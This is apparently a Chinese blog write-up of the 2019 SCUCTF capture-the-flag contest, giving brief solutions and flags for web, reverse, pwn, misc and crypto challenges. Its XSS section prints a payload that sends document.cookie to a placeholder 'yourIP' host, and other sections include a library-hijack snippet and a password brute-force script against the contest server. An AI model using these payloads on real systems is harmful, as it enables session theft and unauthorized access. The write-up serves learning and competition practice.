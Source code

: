 <!--yml
category: 未分类
date: 2022-04-26 14:34:57
-->

# 2019SCUCTF部分题解_东坡何罪发文章总是审核不通过，去博客园了的博客-CSDN博客

> 来源：[https://blog.csdn.net/perfect0066/article/details/90381016](https://blog.csdn.net/perfect0066/article/details/90381016)

# 2019SCUCTF部分题解

比赛地址：[https://2019ctf.scuctf.com](https://2019ctf.scuctf.com)
时间有限，writeup写的简单了点，有时间再补充

### 赛前通知

#### 解题思路

![在这里插入图片描述](img/9a972de4a4af10a0a18c860d8dfc0dcb.png)

#### flag

scuctf{signup}

## web

### 来了老弟

#### 解题思路

直接burpsuite抓包

![在这里插入图片描述](img/c51209ab68b02a03a57ade8876ef1af1.png)
对flag进行urldecode，在进行base64解密得flag

#### flag

SCUCTF{y0U_jUs7_neEd_car3ful}

### 你好呀

#### 解题思路

![在这里插入图片描述](img/144b287234bad9b925173699208b2b2b.png)
![在这里插入图片描述](img/ce705a8ae8e7433005eeea9da39dfd7b.png)

反序列化漏洞，见参考链接

获得一个反弹shell
![在这里插入图片描述](img/50751194a78a098be3d513b05748ccd0.png)

#### 参考链接：

Node.js 反序列化漏洞远程执行代码（CVE-2017-5941） - 20145312袁心 - 博客园
[https://www.cnblogs.com/yx20145312/p/7020206.html](https://www.cnblogs.com/yx20145312/p/7020206.html)

利用 Node.js 反序列化漏洞远程执行代码
[https://paper.seebug.org/213/](https://paper.seebug.org/213/)

#### flag

scuctf{2602547F25B5C13D62F010230D917481}

### 简单的XSS

#### 解题思路

先访问 [http://120.78.185.175:5000/hachp1/love/index.php?greet=<iframe src="../">](http://120.78.185.175:5000/hachp1/love/index.php?greet=%3Ciframe%20src=%22../%22%3E)
![在这里插入图片描述](img/d28e75d9b56bfb9481f7c2ea74d30893.png)

再访问

```
http://120.78.185.175:5000/hachp1/love/index.php?greet=<script>document.location.href="https://yourIP?c="%2bdocument.cookie;</script> 
```

具体什么原理我也不清楚，在网上找到相似的题就把payload抄过来了。

#### 参考链接

我的CSP绕过思路及总结 - 先知社区
[https://xz.aliyun.com/t/5084](https://xz.aliyun.com/t/5084)

Bypassing path restriction on whitelisted CDNs to circumvent CSP protections - SECT CTF Web 400 writeup | Blog - 0daylabs
[https://blog.0daylabs.com/2016/09/09/bypassing-csp/](https://blog.0daylabs.com/2016/09/09/bypassing-csp/)

有趣的cdn bypass CSP · LoRexxar’s Blog
[https://lorexxar.cn/2017/02/16/cdn-bypass-csp/](https://lorexxar.cn/2017/02/16/cdn-bypass-csp/)

TCTF/0CTF2018 XSS Writeup
[https://paper.seebug.org/574/#h4x0rsspace](https://paper.seebug.org/574/#h4x0rsspace)

#### flag

scuctf{l0v3_15_s0_w4rm}

### 稍难一点的XSS

#### 解题思路

![在这里插入图片描述](img/2d6f584d20d1ef457eafdd5419540430.png)

![在这里插入图片描述](img/170a2132cbb2b66dfbbf1ffa22a115cf.png)

#### 参考链接

和上面一个的参考链接一样，
顺便说一下上面的链接里有一个和 更难的XSS 这道题非常类似的题，不过更难的XSS 改了一点点，没做出来。

#### flag

scuctf{Y0u_w0n_th3_G4m3}

## re

### showme666

#### 解题思路

DLL劫持

```
/* Filename: dlsym.c */
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>

int (*realopen)(const char *pathname, int flags);
int (*realclose)(int fd);

int rand() {

    fputs("you will get 6", stderr);

    return 5;
} 
```

![在这里插入图片描述](img/f6194102526cd96362e44b6aafdb6505.png)
具体原理不多讲，见参考链接
感觉还有更简单的方法

#### 参考链接

linux库函数劫持技术 - 程序园
[http://www.voidcn.com/article/p-sinxjpki-pz.html](http://www.voidcn.com/article/p-sinxjpki-pz.html)

#### flag

scuctf{4b54089e328eab73758825a0b40b5be6}

## pwn

### babystack

#### 解题思路

栈溢出
输入11111111111111113
![在这里插入图片描述](img/f88d5dd0f23e336e9288902fcfad084b.png)

#### flag

scuctf{f3035665-6614-43c3-a3ad-1ca46242c0fd}

#### login

#### 解题思路

```
 from pwn import *
import string

dic=string.printable

data='scuctf{'

while 1:
	p=remote('119.23.206.23',10002)

	p.sendline('1')

	for d in dic:

		p.recvuntil('Your password :')
		p.send(data+d)
		recv = p.recvline()

		if 'come' in recv:
			data = data +d
			print data
			break 
```

#### flag

scuctf{fa3256e7-3d65-4f37-b5fb-87923af1a7f2}

## MISC

### 流量分析

#### 解题思路

抓取的usb流量，
使用
tshark -r usb.pcapng -T fields -e usb.capdata > usbdata.txt
提取数据
在网上找到脚本解析得到的数据，
一开始找到的脚本不合适，解析得到的flag不对，，，看来要注意分辨网上找的脚本呀。

```
normalKeys = {"04":"a", "05":"b", "06":"c", "07":"d", "08":"e", "09":"f", "0a":"g", "0b":"h", "0c":"i", "0d":"j", "0e":"k", "0f":"l", "10":"m", "11":"n", "12":"o", "13":"p", "14":"q", "15":"r", "16":"s", "17":"t", "18":"u", "19":"v", "1a":"w", "1b":"x", "1c":"y", "1d":"z","1e":"1", "1f":"2", "20":"3", "21":"4", "22":"5", "23":"6","24":"7","25":"8","26":"9","27":"0","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"-","2e":"=","2f":"[","30":"]","31":"\\","32":"<NON>","33":";","34":"'","35":"<GA>","36":",","37":".","38":"/","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}
shiftKeys = {"04":"A", "05":"B", "06":"C", "07":"D", "08":"E", "09":"F", "0a":"G", "0b":"H", "0c":"I", "0d":"J", "0e":"K", "0f":"L", "10":"M", "11":"N", "12":"O", "13":"P", "14":"Q", "15":"R", "16":"S", "17":"T", "18":"U", "19":"V", "1a":"W", "1b":"X", "1c":"Y", "1d":"Z","1e":"!", "1f":"@", "20":"#", "21":"$", "22":"%", "23":"^","24":"&","25":"*","26":"(","27":")","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"_","2e":"+","2f":"{","30":"}","31":"|","32":"<NON>","33":"\"","34":":","35":"<GA>","36":"<","37":">","38":"?","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}
output = []
keys = open('usbdata.txt')
for line in keys:
    try:
        if line[0]!='0' or (line[1]!='0' and line[1]!='2') or line[3]!='0' or line[4]!='0' or line[9]!='0' or line[10]!='0' or line[12]!='0' or line[13]!='0' or line[15]!='0' or line[16]!='0' or line[18]!='0' or line[19]!='0' or line[21]!='0' or line[22]!='0' or line[6:8]=="00":
             continue
        if line[6:8] in normalKeys.keys():
            output += [[normalKeys[line[6:8]]],[shiftKeys[line[6:8]]]][line[1]=='2']
        else:
            output += ['[unknown]']
    except:
        pass
keys.close()

flag=0
print("".join(output))
for i in range(len(output)):
    try:
        a=output.index('<DEL>')
        del output[a]
        del output[a-1]
    except:
        pass
for i in range(len(output)):
    try:
        if output[i]=="<CAP>":
            flag+=1
            output.pop(i)
            if flag==2:
                flag=0
        if flag!=0:
            output[i]=output[i].upper()
    except:
        pass
print ('output :' + "".join(output)) 
```

#### 参考链接

关于usb流量分析 - 简书
[https://www.jianshu.com/p/92064f2e9dcb](https://www.jianshu.com/p/92064f2e9dcb)

#### flag

scuctf{usbliuliangfenxi}

### stream

#### 解题思路

使用010edit修改相关标志位，让隐藏的文件显示出来
![在这里插入图片描述](img/f0e0dfd6c8b3a24a20162e923a211bf1.png)

#### flag

scuctf{Th1s_A_s1mpl3_ADS}

### 婉姐姐的内存镜像

#### 解题思路

根据题目提示使用
volatility -f problem.vmem --profile=WinXPSP2x86 clipboard
获取剪切板的内容

![在这里插入图片描述](img/62b49f50d76b2afe36c22b998cfd7dd9.png)
base64解密

一开始以为省略号的内容是让人猜的，后来才想到应该是没显示完。

#### flag

scuctf{ec10a7ad0896c0e5562fbba6a1c1808f}

### 藏在最下面的flag

#### 解题思路

LSB隐写，
提取出来得到一张二维码图片

![在这里插入图片描述](img/3a110eaed2b8b5f18573d0b7e0c31f5d.png)
![在这里插入图片描述](img/ae992bfa37ecccde86544e0d6c100bb3.png)

#### flag

scuctf{6ea6688cc99719eb4624eef718719215}

### find others

#### 解题思路

使用hex把四张图片都提取出来，补上文件头，拼成一张二维码，
![在这里插入图片描述](img/c9e2cd3861d8b7f78731de46a72ef506.png)

#### flag

scuctf{yOu_f1x_It_very_g00d}

## CRYPTO

### 佛说，让你签个到

#### 解题思路

与佛论禅
[http://www.keyfc.net/bbs/tools/tudoucode.aspx](http://www.keyfc.net/bbs/tools/tudoucode.aspx)

在这个网站解密

![在这里插入图片描述](img/f18beec7a5ce9d1c06e8914ea887b6fe.png)

#### flag

scuctf{W31c0me_to_scUcTF2ol9}

### audio

#### 解题思路

用audacity打开文件

得到

```
... -.-. ..- -.-.  - ..-. - .... .. ... .. ... .-. . .- .-.. .-.. -.-- -- . -. -.. --- -.- ..- ... .- .. 
```

莫尔斯电码解密得flag

#### flag

scuctf{thisisreallymendokusai}